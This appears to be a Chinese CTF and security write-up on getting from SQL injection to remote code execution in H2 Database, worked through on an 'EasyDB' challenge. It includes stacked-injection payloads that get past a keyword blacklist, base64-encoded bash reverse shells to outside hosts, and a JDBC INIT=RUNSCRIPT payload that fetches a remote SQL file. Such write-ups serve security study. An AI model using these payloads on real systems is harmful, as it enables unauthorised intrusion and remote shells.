






# H2 Database从SQL到RCE-先知社区

> **来源**: https://xz.aliyun.com/news/16887  
> **文章ID**: 16887

---

## H2 Database 从SQL到RCE

 H2 Database是一个内存和纯 Java 数据库，因为它是一个内存数据库，开发人员最常使用它来学习、单元测试和 poc

H2 提供了一个 Web 控制台，可以在其中管理数据库，这里的事情开始变得更加有趣，默认情况下它没有设置密码，所以只需登录即可，但是我们可以在其中做什么？我尝试的第一件事是SQL注入写文件。

```
SELECT 'SOME CONTENT' INTO OUTFILE '/tmp/saida.txt'
```

但是并没有产生作用

 另一个可以利用的是[FILE\_READ](http://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#file_read) 、FILE\_WRITE函数，可以从文件系统中读取文件  
 

```
SELECT LENGTH(FILE_READ('~/.h2.server.properties')) LEN;  
SELECT FILE_READ('http://localhost:8182/stylesheet.css', NULL) CSS;
```

```
SELECT FILE_WRITE('Hello world', '/tmp/hello.txt')) LEN;
```

  
官网文档 <https://www.h2database.com/html/functions.html>

### H2未授权RCE

H2 database自带一个web管理页面，设置了如下的设置就允许外部用户访问web管理界面，且不经过身份验证

```
//这个就是设置启用还是禁用web管理界面
spring.h2.console.enabled=true

//这个就是设置是否允许外部用户进行访问管理界面，并不通过身份验证
spring.h2.console.settings.web-allow-others=true
//如果这两个设置钧开启，那么就可以利用jndi进行注入攻击。
```

利用alias别名，调用java代码进行命令执行，创建别名:

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\A"); return s.hasNext() ? s.next() : "";  }$$;
```

* 注：h2中两个`$`表示无需转义的长字符串

调用SHELLEXEC执行命令:

```
CALL SHELLEXEC('id');
CALL SHELLEXEC('whoami');
```

## N1Junior EasyDB

查看 pom.xml 可以知道题目使用了 H2 数据库

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.18</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>challenge</groupId>
    <artifactId>EasyDB</artifactId>
    <version>0.0.1</version>

    <properties>
        <java.version>8</java.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>servlet-api</artifactId>
            <version>2.5</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>

```

jdbc连接配置如下

```
import java.sql.Connection;  
import java.sql.SQLException;  
import javax.sql.DataSource;  
import org.h2.jdbcx.JdbcDataSource;  
import org.springframework.beans.factory.annotation.Value;  
import org.springframework.context.annotation.Bean;  
import org.springframework.context.annotation.Configuration;  
  
@Configuration  
public class JdbcConfig {  
    @Value("${spring.datasource.url}")  
    private String url;  
    @Value("${spring.datasource.username}")  
    private String username;  
    @Value("${spring.datasource.password}")  
    private String password;  
  
    public JdbcConfig() {  
    }  
  
    @Bean  
    public DataSource dataSource() {  
        JdbcDataSource dataSource = new JdbcDataSource();  
        dataSource.setURL(this.url);  
        dataSource.setUser(this.username);  
        dataSource.setPassword(this.password);  
        return dataSource;  
    }  
  
    @Bean  
    public Connection jdbcConnection(DataSource dataSource) throws SQLException {  
        return dataSource.getConnection();  
    }  
}
```

看一下路由控制器

```
@Controller
public class UserController {
   @Autowired
   private UserService userService;

   public UserController() {
   }

   @GetMapping({"/"})
   public String index(HttpSession session, Model model) {
      String username = (String)session.getAttribute("username");
      if (username != null) {
         model.addAttribute("username", username);
         return "index";
      } else {
         return "redirect:/login";
      }
   }

   @GetMapping({"/login"})
   public String login() {
      return "login";
   }

   @PostMapping({"/login"})
   public String handleLogin(@RequestParam String username, @RequestParam String password, HttpSession session, Model model) throws SQLException {
      if (this.userService.validateUser(username, password)) {
         session.setAttribute("username", username);
         return "redirect:/";
      } else {
         model.addAttribute("error", "Invalid username or password");
         return "login";
      }
   }

   @GetMapping({"/logout"})
   public String handleLogout(HttpSession session) {
      session.invalidate();
      return "redirect:/login";
   }
}


```

发现主要功能还是登录，跟踪`validateUser`函数，发现用format将参数拼接进了sql语句存在注入

```
public boolean validateUser(String username, String password) throws SQLException {
      String query = String.format("SELECT * FROM users WHERE username = '%s' AND password = '%s'", username, password);
      if (!SecurityUtils.check(query)) {
         return false;
      } else {
         Statement stmt = this.connection.createStatement();
         Throwable var5 = null;

         Throwable var8;
         try {
            stmt.executeQuery(query);
            ResultSet resultSet = stmt.getResultSet();
            Throwable var7 = null;

            try {
               var8 = resultSet.next();
            } catch (Throwable var31) {
               var8 = var31;
               var7 = var31;
               throw var31;
            } finally {
               if (resultSet != null) {
                  if (var7 != null) {
                     try {
                        resultSet.close();
                     } catch (Throwable var30) {
                        var7.addSuppressed(var30);
                     }
                  } else {
                     resultSet.close();
                  }
               }

            }
         } catch (Throwable var33) {
            var5 = var33;
            throw var33;
         } finally {
            if (stmt != null) {
               if (var5 != null) {
                  try {
                     stmt.close();
                  } catch (Throwable var29) {
                     var5.addSuppressed(var29);
                  }
               } else {
                  stmt.close();
               }
            }

         }

         return (boolean)var8;
      }
   }
```

### 方法一：自定义函数RCE

经过一些测试可以知道上面的 SQL 注入支持多条语句执行 (Stack Queries), 因此用H2 SQL 定义Java函数RCE的 payload

```
';CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "test";}';CALL EXEC ('calc');--
```

但是发现用 `challenge.SecurityUtils#check` 进行了黑名单过滤

```
public class SecurityUtils {
   private static final HashSet<String> blackLists = new HashSet();

   public SecurityUtils() {
   }

   public static boolean check(String sql) {
      Iterator var1 = blackLists.iterator();

      String keyword;
      do {
         if (!var1.hasNext()) {
            return true;
         }

         keyword = (String)var1.next();
      } while(!sql.toLowerCase().contains(keyword));

      return false;
   }

   static {
      blackLists.add("runtime");
      blackLists.add("process");
      blackLists.add("exec");
      blackLists.add("shell");
      blackLists.add("file");
      blackLists.add("script");
      blackLists.add("groovy");
   }
}

```

我们需要绕过上面的过滤才能实现 RCE，经过测试上面的过滤可以利用 Java 反射机制+base64（其实不用base64也行）实现绕过:

```
Class c = Class.forName(new String(java.util.Base64.getDecoder().decode("amF2YS5sYW5nLlJ1bnRpbWU="))); // java.lang.Runtime
java.lang.reflect.Method m1 = c.getMethod(new String(java.util.Base64.getDecoder().decode("Z2V0UnVudGltZQ=="))); // getRuntime
Object o = m1.invoke(null);
java.lang.reflect.Method m2 = c.getMethod(new String(java.util.Base64.getDecoder().decode("ZXhlYw==")), String[].class); // exec
m2.invoke(o, new Object[]{new String[]{"/bin/bash", "-c", new String(java.util.Base64.getDecoder().decode("YmFzaCAtaSA+JiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA+JjE="))}}); // bash -i >& /dev/tcp/host.docker.internal/4444 0>&1
```

最终注入payload

```
username=';CREATE ALIAS hello AS $$ String hello() throws Exception { Class c = Class.forName(new String(java.util.Base64.getDecoder().decode("amF2YS5sYW5nLlJ1bnRpbWU=")));java.lang.reflect.Method m1 = c.getMethod(new String(java.util.Base64.getDecoder().decode("Z2V0UnVudGltZQ==")));Object o = m1.invoke(null);java.lang.reflect.Method m2 = c.getMethod(new String(java.util.Base64.getDecoder().decode("ZXhlYw==")), String[].class);m2.invoke(o, new Object[]{new String[]{"/bin/bash", "-c", new String(java.util.Base64.getDecoder().decode("YmFzaCAtaSA%2bJiAvZGV2L3RjcC9ob3N0LmRvY2tlci5pbnRlcm5hbC80NDQ0IDA%2bJjE="))}});return null; }$$; CALL hello();--
```

或者不用base64直接反射绕过

```
username=admin';CREATE ALIAS zxc AS $$ void a(String cmd) throws Exception {Class<?> cls= Class.forName("java.lang.Ru"+"ntime"); String str= (String) cls.getMethod("ex"+"ec", String.class).invoke(cls.getMethod("getRunt"+"ime").invoke(cls),cmd);  System.out.println(str);}$$;CALL zxc('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjM3LjE3My8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}');--
```

  
反弹 shell 后执行 `/readflag` 命令拿到 flag  


### 方法二：利用init URL远程加载执行`RUNSCRIPT`命令

**h2数据库的JDBC URL中支持的一个配置**`INIT`，这个参数表示在连接h2数据库时，会执行一条初始化命令。不过只支持执行一条命令，而且不能包含分号`;`

我们可以利用 `RUNSCRIPT`**命令执行一个SQL文件**

```
jdbc:h2:mem:test;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/evil.sql'
```

* `mem`：表示使用 内存模式（In-Memory Mode）。
* `test`：数据库的名称。

* 在内存模式下，`test` 是数据库的标识符。

翻阅官方文档，找到**函数**`LINK_SCHEMA` 用于将一个本地模式（schema）连接到远程数据库的模式。这样可以在本地访问远程数据库的表和数据。

```
select * from LINK_SCHEMA('TEST2', '','jdbc:h2:mem:test;MODE=MSSQLServer;INIT=RUNSCRIPT FROM "" http://vps:port/test.sql" ', 'sa', 'sa', 'PUBLIC')
```

注：但是高版本对URL进行了限制，只允许java开头  


在服务器创建sql文件:

```
CREATE ALIAS test AS $$void shell(String s) throws Exception {
    java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT test('反弹shell');
```

16进制编码sql语句

```
select * from LINK_SCHEMA('TEST2', '','jdbc:h2:mem:test;MODE=MSSQLServer;INIT=RUNSCRIPT FROM "" http://vps:port/test.sql" ', 'sa', 'sa', 'PUBLIC')
```

注意：十六进制是四位  


参考kw师傅思路再用CSVWRITE函数执行sql语句，  


如果在不能堆叠注入情况下可以这样打:

```
' CSVWRITE('/tmp/a', HEXTORAW('00730065006c0065......)),1,1 --
```
